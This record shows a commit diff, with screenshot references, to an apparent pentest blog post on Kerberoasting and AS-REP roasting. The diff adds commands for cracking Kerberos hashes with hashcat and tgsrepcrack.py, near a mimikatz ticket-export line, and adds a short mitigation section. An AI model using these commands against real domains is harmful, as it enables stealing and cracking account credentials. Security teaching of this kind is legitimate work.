

Before and after one commit to LuemmelSec/LuemmelSec.github.io, a Jekyll site: the page built from _posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md, in a window 1280 px wide and 900 px high, scrolled down 5531 px. Shown: the whole window, without its empty margins (248-1031 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md

````diff
--- a/_posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md
+++ b/_posts/2020-12-11-Kerberoasting-VS-AS-REP-Roasting.md
@@ -141,15 +141,21 @@
 kerberos::list /export
 ```
 
-**hashcat**
-The output from Rubeus and PowerView can directly be feeded into hashcat:
+**hash cracking**
+The output from Rubeus and PowerView can directly be fed into [hashcat](https://github.com/hashcat/hashcat):
 ```powershell
 hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt
 ```
 
+For the mimikatz extracted hashes we need to issue [tgsrepcrack.py](https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py)
+```powershell
+python tgsrepcrack.py c:\rockyou.txt c:\ticket.kirbi
+```
 
+### Mitigation
 
-mimikatz is able to extract **STs** from memory, but we first need to identify valid **SPNs** and request a valid ticke
+Check which accounts in your environment are affected with PowerView´s Get-DomainUser cmdlet as explained above.
+If the **SPN** needs to be tied to a user rather than a computer account, make sure to make the password long and complex.
 
 ## Conclusion
 
````
